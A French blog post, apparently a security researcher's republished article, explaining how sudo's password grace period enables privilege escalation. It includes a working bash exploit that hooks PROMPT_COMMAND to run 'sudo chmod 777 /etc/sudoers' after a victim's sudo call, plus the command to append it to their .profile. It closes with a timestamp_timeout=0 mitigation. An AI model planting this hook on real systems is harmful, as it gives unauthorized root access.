 ```yaml
---
title: "Exploiter la grace period de sudo sur Mac OS X, Linux, BSD..."
tags: [vulnérabilité]
---
```


NB: Ceci est une republication de mon article original du mois d'avril 2012 posté sur *myopera*.  

L'exploit a très légèrement été amélioré.  

Présentation rapide de sudo
---------------------------

Les utilisateurs de systèmes dérivés d'Unix connaissent bien la commande `sudo` qui permet via le fichier de configuration `/etc/sudoers` d'autoriser des utilisateurs à exécuter des commandes prédéfinies sous les droits d'un autre utilisateur, et ce, sans avoir par exemple à saisir de mot de passe. Pratique quand on veut par exemple autoriser un utilisateur lambda à effectuer une mise à jour de l'antivirus installé sans que l'on ait à lui divulguer le mot de passe root.  

Une autre particularité de `sudo` que l'on remarque rapidement en l'utilisant, c'est la fonctionnalité dite de *"grace period"*.  

La *"grace period"*, c'est le laps du temps pendant lequel vous pouvez retaper des commandes privilégiées avec `sudo` sans avoir à ressaisir le mot de passe (vous le renseignez seulement lors du premier appel à `sudo`).  

Il m'est tout de suite apparu que ce délai devait être exploitable et permettrait une escalade de privilèges, même si je ne savais pas trop dans quelle direction me tourner pour la mise en pratique (injection via `ptrace`, commandes spécifiques bash... ?)  

Un vieil exploit
----------------

J'ai cependant découvert dans mes recherches que cette *"faille"* n'a rien de nouveau : déjà [en avril 2005](http://www.pcmag.com/article2/0,2817,1784705,00.asp) (c'est-à-dire il y a 7 ans), un [advisory](http://web.archive.org/web/20050407211158/http://www.adbas.net/OSX_Vuln.txt) existait pour cette faiblesse avec une proposition pour empêcher l'exploitation.  

[Un exploit spécifique à Mac OS X 10.3 (Panther)](http://web.archive.org/web/20050410225158/http://www.adbas.net/software/rooted.dmg) (merci archive.org) était même disponible.  

L'exploit de l'époque se basait sur différents points :  

* Les appels à sudo sont enregistrés dans le fichier `/var/log/system.log` lisible par tous
* La *grace period* est de 5 minutes
* `sudo` peut être lancé sans être lié à un tty

Il suffisait à l'exploit de surveiller le fichier de log et de lancer une commande privilégiée à la suite de celle de l'utilisateur.  

Si le second point est uniquement une question de configuration, le premier est lui très fâcheux et le troisième me semble carrément inacceptable (il me semble que sous Linux, `su` et `sudo` vous insultent poliment s'ils ne sont pas lancés depuis un tty).  

Je n'ai pas testé ce vieil exploit sous *OS X Lion*, j'ai au moins constaté que les deux premiers points sont toujours vrais et je ne serais pas surpris que le troisième le soit aussi :|  

Un nouvel exploit bash-powered
------------------------------

J'ai plutôt décidé d'écrire moi-même un exploit qui fonctionne même si les points 1 et 3 sont corrigés et qui fonctionnerait aussi bien sur *Mac OS X* que sous *Linux* et *BSD*.  

Le principe est simple : il faut que des commandes soient lancées directement dans le terminal de l'utilisateur (et non pas à côté comme dans l'ancien exploit) juste après qu'il ait appelé `sudo`.  

L'environnement bash conserve un historique des commandes tapées qui est lisible depuis la session bash via la commande `history`. On peut donc savoir très facilement si la précédente commande tapée est *sudo*.  

Deuxièmement, bash dispose d'une variable d'environnement nommée [PROMPT_COMMAND](http://tldp.org/HOWTO/Bash-Prompt-HOWTO/x264.html) qui permet d'exécuter une commande à chaque fois que le prompt (PS1) va être affiché dans la console, donc grosso modo entre chaque commande tapée :)  

Cette variable d'environnement peut aussi bien contenir une commande que le nom d'une fonction bash.  

À ce niveau, vous devriez déjà avoir compris le principe de l'attaque. Il ne reste plus qu'à ajouter quelques vérifications comme une bonne commande `grep` ainsi que la valeur de retour d'une commande `sudo` (citée dans la page de manuel) :  

> Upon successful execution of a program, the exit status from sudo will simply be the exit status of the program that was executed.
> Otherwise, sudo exits with a value of 1 if there is a configuration/permission problem or if sudo cannot execute the given command.

Le code final est le suivant (`sudo_grace_period_exploit.sh`) :  

```bash
function bash_history {
  if [ $? -ne 1 ] # la précédente commande a réussie
  then
    if [ -z "${PWNED+xxx}" ] # pas encore pwné
    then
      history 1 | grep -q -E '^[[:space:]]*[0-9]+  sudo '
      if [ $? -eq 0 ] # la précédente commande contient sudo
      then
        sudo chmod 777 /etc/sudoers 2> /dev/null
        PWNED="yes"
        unset PROMPT_COMMAND 2> /dev/null
      fi
    fi
  fi
}

PROMPT_COMMAND=bash_history
```

Il n'y a alors plus qu'à placer ces commandes dans le `.profile` ou le `.bashrc` d'une personne utilisant `sudo` :  

```bash
cat sudo_grace_period_exploit.sh >> .profile
```

Et patienter le temps que notre commande soit exécutée. Un petit hack de 17 lignes pour dompter un Lion, un pingouin ou un démon :)  

Le seul moyen efficace de se protéger de cette attaque est de désactiver la *grace period* en utilisant la ligne de configuration suivante pour `/etc/sudoers` :

```
Defaults:ALL timestamp_timeout=0
```


*Published April 27 2014 at 13:27*
